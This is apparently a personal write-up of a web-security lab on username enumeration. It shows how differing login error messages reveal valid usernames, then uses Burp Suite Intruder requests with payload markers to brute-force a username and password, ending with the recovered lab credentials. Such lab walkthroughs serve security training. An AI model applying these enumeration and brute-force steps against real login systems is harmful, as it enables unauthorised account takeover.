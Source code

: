 #+title: Username enumeration via different responses
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]

* Table of Contents :toc:
- [[#lab-contains][Lab contains]]
- [[#end-goal][End Goal]]
- [[#download-given-wordlist-username--password-files][Download given wordlist ~username~ & ~password~ files]]
- [[#enumerate-username-first][Enumerate username first]]
- [[#enumerate-password-for-found-username][Enumerate password for found username]]
- [[#solve-the-lab][Solve the Lab]]

* Lab contains
+ Vulnerable to username enumeration and paassword brute-force attack
+ Wordlist for username and password
* End Goal
+ Enumerate valid ~usename~ and ~password~ and login into their account.
* DONE Download given wordlist ~username~ & ~password~ files
CLOSED: [2023-07-31 Mon 17:40]
* DONE Enumerate username first
CLOSED: [2023-07-31 Mon 18:03]
+ Go to login page
+ Insert test login credential like username = ~test~ , password = ~test~
+ Intercept the request to ~burpsuite~
+ Observe the error message on invalid username.
+ Application giving error message ~Invalid username~
+ Go to burpsuite intruder and brute-force the ~username~ with given ~username~ wordlist and filterout by error message ~Invalid username~
+ In intruder of burpsuite
  #+begin_src shell
  POST /login HTTP/2
  Host: 0a3a00a7036b3e42800edace007a00e8.web-security-academy.net
  Cookie: session=dyDpQiTG4lyQZrjPkQUbfZRrqhXOeUtW
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 27
  Origin: https://0a3a00a7036b3e42800edace007a00e8.web-security-academy.net
  Dnt: 1
  Referer: https://0a3a00a7036b3e42800edace007a00e8.web-security-academy.net/login
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: same-origin
  Sec-Fetch-User: ?1
  Sec-Gpc: 1
  Te: trailers

  username=§test§&password=test
#+end_src
+ So, Here is result from ~username~ enumeration. We can see that for invalid ~username~ it give a message ~Invalid username~. But for a particular ~username~ it gives a message ~Incorrect password~. So we can assume that it is the correct ~username~ but for that ~username~ it is incorrect ~password~
  [[./assets/screenshots/lab01-enum-username.png]]
  /So the username = ai/
  /Can be different on every new instance of lab/

* DONE Enumerate password for found username
CLOSED: [2023-07-31 Mon 18:21]
We found that username = ~ai~
+ Now brute-force same request but replace ~username=test~ with ~username=ai~ and brute-force ~password~ parameter
+ Use given password wordlist
#+begin_src shell
  POST /login HTTP/2
Host: 0ab80093032551e78032a44a005a0038.web-security-academy.net
Cookie: session=tDb3th4OBivAXgtGqBJruonwAvbtvDBK
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: https://0ab80093032551e78032a44a005a0038.web-security-academy.net
Dnt: 1
Referer: https://0ab80093032551e78032a44a005a0038.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Te: trailers

username=ai&password=§test§
#+end_src

[[./assets/screenshots/lab01-enum-password.png]]

/For every payload it shows Incorrect password except one that is our correct password/

So, password for username ~ai~ is ~121212~

* DONE Solve the Lab
CLOSED: [2023-07-31 Mon 18:22]
Login with found credential to solve the lab
+ username = ~ai~
+ password = ~121212~
 
/Might be changed on every new instance of lab/
